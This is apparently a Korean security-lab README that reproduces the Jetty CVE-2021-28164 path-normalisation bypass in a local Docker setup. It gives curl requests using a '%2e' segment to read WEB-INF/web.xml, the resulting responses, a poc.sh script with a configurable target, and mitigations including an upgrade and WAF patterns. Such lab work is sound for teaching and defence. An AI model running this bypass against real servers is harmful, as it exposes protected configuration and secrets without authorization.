







# Eclipse Jetty 정보 노출 취약점
## CVE-2021-28164
### 0. 실행 코드
```
docker compose up -d --build --wait
docker compose ps
./poc.sh
```

## 1. 취약점 개요

CVE-2021-28164는 Eclipse Jetty의 URI 경로 처리 과정에서 발생하는 정보 노출 취약점이다.

Jetty 웹 애플리케이션에서 `WEB-INF` 디렉터리는 애플리케이션 설정 파일과 내부 구성 파일을 저장하는 보호 영역이다. 따라서 외부 사용자가 브라우저나 HTTP 요청을 통해 `WEB-INF/web.xml`과 같은 파일에 직접 접근할 수 없어야 한다.

그러나 취약한 Jetty 버전에서는 URL 인코딩된 점 문자 `%2e`가 포함된 요청 경로를 올바르게 처리하지 못한다. 공격자는 다음과 같이 조작된 URI를 요청하여 보호된 디렉터리 접근 제한을 우회할 수 있다.

```text
/demo/%2e/WEB-INF/web.xml
```

정상적인 요청에서는 `WEB-INF/web.xml`에 대한 접근이 차단되지만, 조작된 경로를 사용하면 서버가 해당 파일을 정상적인 정적 파일처럼 반환할 수 있다.

이 실습에서는 Docker를 사용하여 취약한 Eclipse Jetty 환경을 구성한 뒤, 정상 요청과 조작된 요청의 결과를 비교하여 정보 노출 취약점을 재현한다.

---

## 2. 취약 버전 및 조건

| 구분 | 내용 |
|---|---|
| CVE 번호 | CVE-2021-28164 |
| 대상 프로그램 | Eclipse Jetty |
| 취약 버전 | 9.4.38.v20210224 |
| 수정 버전 | 9.4.39 이상 |
| 인증 필요 여부 | 불필요 |
| 공격 벡터 | 네트워크 |


본 실습에서는 취약 버전인 `9.4.38.v20210224`를 사용하였다.

취약점이 재현되기 위한 주요 조건은 다음과 같다.

1. 취약한 Jetty 버전을 사용해야 한다.
2. Jetty에서 웹 애플리케이션이 특정 Context Path로 실행되어야 한다.
3. 웹 애플리케이션 내부에 `WEB-INF/web.xml` 파일이 존재해야 한다.
4. 공격자는 취약한 Jetty 서버에 HTTP 요청을 보낼 수 있어야 한다.
5. 요청 URI에 인코딩된 점 문자 `%2e`를 포함해야 한다.

## 3. 실습 환경 구성

### 3.1 사용 환경

| 항목 | 내용 |
|---|---|
| 운영 환경 | WSL Ubuntu |
| 컨테이너 환경 | Docker Desktop |
| 컨테이너 관리 | Docker Compose |
| Java 버전 | Java 11 |
| 빌드 도구 | Maven |
| 웹 서버 | Eclipse Jetty 9.4.38.v20210224 |
| 호스트 포트 | 8080 |
| Context Path | `/demo` |

### 3.2 디렉터리 구조

```text
Jetty/
└── CVE-2021-28164/
    ├── Dockerfile
    ├── docker-compose.yml
    ├── README.md
    ├── poc.sh
    ├── app/
    │   ├── pom.xml
    │   └── src/
    │       └── main/
    │           └── webapp/
    │               ├── index.html
    │               └── WEB-INF/
    │                   └── web.xml
    └── images/
        ├── 1-build-success.png
        ├── 2-container-running.png
        ├── 3-normal-page.png
        ├── 4-normal-request.png
        ├── 5-exploit-success.png
        ├── 6-poc-script.png
        └── 7-poc-exec.png
```

### 3.3 주요 파일 설명

| 파일 | 역할 |
|---|---|
| `Dockerfile` | Maven과 Java 환경을 기반으로 애플리케이션을 빌드하고 Jetty를 실행한다. |
| `docker-compose.yml` | Docker 이미지를 빌드하고 8080 포트로 컨테이너를 실행한다. 또한 Healthcheck를 통해 Jetty 서버가 실제 HTTP 요청에 응답할 수 있는지 확인한다. |
| `app/pom.xml` | Jetty 버전과 Maven 빌드 설정을 정의한다. |
| `index.html` | Jetty 웹 애플리케이션의 정상 실행 여부를 확인한다. |
| `WEB-INF/web.xml` | 원래 외부에서 접근할 수 없어야 하는 보호된 설정 파일이다. |
| `poc.sh` | 정상 요청과 취약점 요청을 순서대로 실행한다. |
| `README.md` | 환경 구성, 재현 방법, 결과와 대응 방안을 설명한다. |

---
## 4. 취약 환경 실행

다음 명령어 하나로 Docker 이미지를 빌드하고 컨테이너를 실행한다.

```bash
docker compose up -d --build --wait
```
각 옵션의 의미는 다음과 같다.

- -d: 컨테이너를 백그라운드에서 실행한다.
- --build: 컨테이너 실행 전에 Docker 이미지를 새로 빌드한다.
- --wait: docker-compose.yml에 정의된 Healthcheck가 정상 상태가 될 때까지 기다린다.

따라서 명령 실행이 완료된 시점에는 Jetty 서버가 실제로 HTTP 요청을 처리할 준비가 된 상태이다.

```text
Image cve-2021-28164-jetty Built
```



실행 상태는 다음 명령어로 확인한다. 

```bash
docker compose ps
```
정상적으로 실행된 경우 STATUS 항목에 healthy가 표시되고, 호스트의 8080번 포트와 컨테이너의 8080번 포트가 연결된 것을 확인할 수 있다.

```text
0.0.0.0:8080->8080/tcp
```



---

## 5. 정상 웹페이지 확인

Jetty 서버와 웹 애플리케이션이 정상적으로 실행되었는지 확인한다.

```bash
curl -i http://localhost:8080/demo/
```

정상적으로 실행된 경우 다음 응답을 확인할 수 있다.

```text
HTTP/1.1 200 OK
Server: Jetty(9.4.38.v20210224)
```

응답 본문에는 `index.html`에 작성한 다음 내용이 출력된다.

```html
<h1>Jetty CVE-2021-28164 Lab</h1>
<p>The vulnerable Jetty server is running.</p>
```

이를 통해 취약한 Jetty 버전이 정상적으로 실행되고 있으며, `/demo` Context Path에 웹 애플리케이션이 배포되었음을 확인할 수 있다.



---

## 6. 정상 요청 확인

`WEB-INF` 디렉터리는 외부 접근이 제한되는 보호 영역이다.

따라서 다음과 같이 일반적인 경로를 사용하여 `WEB-INF/web.xml` 파일을 요청한다.

```bash
curl --path-as-is -i \
"http://localhost:8080/demo/WEB-INF/web.xml"
```

`--path-as-is` 옵션은 curl이 요청 경로를 임의로 정규화하지 않고 입력한 경로 그대로 서버에 전달하도록 한다.

정상 요청의 결과는 다음과 같다.

```text
HTTP/1.1 404 Not Found
```

응답에는 `web.xml`의 내용이나 다음 실습용 문자열이 출력되지 않는다.

```text
WHS_JETTY_SECRET_2021
```

이는 정상적인 경로를 사용한 경우 Jetty가 `WEB-INF` 디렉터리에 대한 접근을 차단하고 있음을 의미한다.



---
## 7. 취약점 재현

정상 요청과 달리 요청 경로에 URL 인코딩된 점 문자 `%2e`를 추가하여 다음 요청을 전송한다.

```bash
curl --path-as-is -i \
"http://localhost:8080/demo/%2e/WEB-INF/web.xml"
```

`%2e`는 URL 인코딩된 마침표 문자 `.`를 의미한다.

취약한 Jetty 버전은 인코딩된 점 문자가 포함된 경로를 처리하는 과정에서 URI 정규화를 올바르게 수행하지 못한다. 이로 인해 보호된 `WEB-INF` 디렉터리에 대한 접근 제한이 우회될 수 있다.

취약점이 재현된 경우 다음과 같은 응답을 확인할 수 있다.

```text
HTTP/1.1 200 OK
Content-Type: application/xml
Server: Jetty(9.4.38.v20210224)
```

`HTTP/1.1 200 OK`는 조작된 요청이 정상적으로 처리되었다는 의미이다. 또한 `Content-Type: application/xml`을 통해 서버가 XML 파일을 반환했음을 확인할 수 있다.

응답 본문에는 원래 외부에서 접근할 수 없어야 하는 `web.xml`의 내용이 출력된다.

```xml
<display-name>CVE-2021-28164 Lab</display-name>

<context-param>
    <param-name>lab-secret</param-name>
    <param-value>WHS_JETTY_SECRET_2021</param-value>
</context-param>
```

정상 요청에서는 `404 Not Found`가 반환되었지만, `%2e`가 포함된 조작된 요청에서는 `200 OK`와 함께 `web.xml`의 내용이 노출되었다.

이를 통해 인코딩된 점 문자를 이용하여 `WEB-INF` 접근 제한을 우회할 수 있으며, CVE-2021-28164 정보 노출 취약점이 실제로 재현됨을 확인하였다.



---

## 8. PoC 코드

반복적인 재현을 위해 정상 요청과 취약점 요청을 한 번에 실행하는 `poc.sh` 스크립트를 작성하였다.

```bash
#!/bin/sh

TARGET="${1:-http://localhost:8080/demo}"
MAX_RETRIES=60
COUNT=0

echo "[*] Waiting for Jetty server..."

while ! curl -fsS "$TARGET/" > /dev/null 2>&1; do
    COUNT=$((COUNT + 1))

    if [ "$COUNT" -ge "$MAX_RETRIES" ]; then
        echo "[-] Jetty server did not become ready."
        echo "[-] Check the container logs:"
        echo "    docker compose logs"
        exit 1
    fi

    sleep 1
done

echo "[+] Jetty server is ready."

echo
echo "========================================"
echo "[1] Normal request"
echo "========================================"

curl --path-as-is -i \
  "$TARGET/WEB-INF/web.xml"

echo
echo
echo "========================================"
echo "[2] Exploit request"
echo "========================================"

curl --path-as-is -i \
  "$TARGET/%2e/WEB-INF/web.xml"
```

스크립트에 실행 권한을 부여한다.

```bash
chmod +x poc.sh
```

다음 명령어로 PoC를 실행한다.

```bash
docker compose up -d --build --wait
./poc.sh
```

외부에서 다른 대상 주소를 지정하려면 인자로 전달할 수 있다.

```bash
./poc.sh http://localhost:8080/demo
```

PoC 실행 결과 정상 요청은 `404 Not Found`, 공격 요청은 `200 OK`를 반환한다.




---

## 9. 실행 결과 비교

| 요청 구분 | 요청 경로 | 응답 결과 | 파일 노출 여부 |
|---|---|---|---|
| 정상 요청 | `/demo/WEB-INF/web.xml` | `404 Not Found` | 노출되지 않음 |
| 조작된 요청 | `/demo/%2e/WEB-INF/web.xml` | `200 OK` | `web.xml` 내용 노출 |

실습 결과, 정상 경로에서는 `WEB-INF` 내부 파일에 접근할 수 없었으나 `%2e`가 포함된 조작된 요청에서는 `web.xml` 파일의 내용이 노출되었다.

이를 통해 CVE-2021-28164 정보 노출 취약점이 재현되었음을 확인하였다.

---

## 10. 취약점 원인

일반적으로 웹 서버는 요청 URI를 처리할 때 점 문자와 인코딩된 문자를 해석하고, 최종 경로를 정규화한다.

그러나 취약한 Jetty 버전에서는 URL 인코딩된 점 문자 `%2e`가 포함된 경로를 처리하는 과정에서 경로 정규화와 보호 디렉터리 검사 사이에 불일치가 발생한다.

그 결과 일반 요청에서는 접근이 제한되는 `WEB-INF` 경로가 조작된 URI에서는 정상적인 파일 경로로 처리될 수 있다.

즉, 취약점의 핵심 원인은 다음과 같다.

```text
인코딩된 경로 처리
→ URI 정규화 불일치
→ WEB-INF 보호 검사 우회
→ 내부 파일 노출
```
---

## 11. 대응 방안

### 11.1 안전한 Jetty 버전으로 업데이트

가장 근본적인 대응 방법은 취약점이 수정된 버전으로 Jetty를 업데이트하는 것이다.

본 실습에서 사용한 `9.4.38.v20210224`는 취약한 버전이므로, 최소 `9.4.39` 이상의 버전으로 업데이트해야 한다.

```text
취약 버전: Jetty 9.4.37, 9.4.38
수정 버전: Jetty 9.4.39 이상
```


### 11.2 비정상 URI 요청 차단

Jetty를 즉시 업데이트하기 어려운 경우, 리버스 프록시나 WAF에서 비정상적인 URI 패턴을 탐지하고 차단하는 임시 대응을 적용할 수 있다.

다음과 같은 문자열이 포함된 요청을 점검할 수 있다.

```text
%2e
%2E
/WEB-INF/
/META-INF/
```

특히 URL 인코딩된 점 문자가 포함된 요청이나 보호 디렉터리를 직접 요청하는 경우 공격 시도일 가능성이 있으므로 차단 또는 별도 기록이 필요하다.

다만 공격자는 대소문자 변형, 이중 인코딩, 다른 형태의 경로 표현을 사용할 수 있으므로 URI 필터링만으로 취약점을 완전히 해결할 수는 없다.

### 11.3 민감 정보 분리

`WEB-INF/web.xml`과 같은 애플리케이션 내부 설정 파일에 비밀번호, API 키, 데이터베이스 계정 정보와 같은 민감 정보를 평문으로 저장하지 않아야 한다.

민감 정보는 다음과 같은 별도의 안전한 방법으로 관리하는 것이 바람직하다.

- 환경 변수
- Docker Secret
- 비밀 관리 시스템
- 접근 권한이 제한된 외부 설정 저장소

설정 파일이 노출되더라도 실제 인증 정보나 비밀값이 함께 유출되지 않도록 구성해야 한다.

---

## 12. 재현 환경 초기화 및 재검증

본 실습 환경이 기존 컨테이너, 이미지 또는 빌드 캐시에 의존하지 않고 동일하게 재현되는지 확인하기 위해 초기화 후 재검증을 수행하였다.

먼저 실행 중인 컨테이너와 관련 네트워크 및 볼륨을 제거한다.

```bash
docker compose down -v
```

기존에 생성된 실습 이미지를 삭제한다.

```bash
docker image rm cve-2021-28164-jetty
```

이후 기존 빌드 캐시를 사용하지 않고 이미지를 다시 빌드한다.

```bash
docker compose build --no-cache
```

빌드가 완료되면 Healthcheck가 정상 상태가 될 때까지 기다리며 컨테이너를 실행한다.

```bash
docker compose up -d --wait
```

`--wait` 옵션은 `docker-compose.yml`에 정의된 Healthcheck가 성공할 때까지 대기한다. 따라서 명령 실행이 완료된 시점에는 Jetty 웹 서버가 실제로 HTTP 요청을 처리할 준비가 된 상태이다.

컨테이너 상태는 다음 명령어로 확인한다.

```bash
docker compose ps
```

정상적으로 준비된 경우 `STATUS` 항목에 다음과 같이 `healthy` 상태가 표시된다.

```text
Up ... (healthy)
```

마지막으로 PoC 스크립트를 실행한다.

```bash
./poc.sh
```
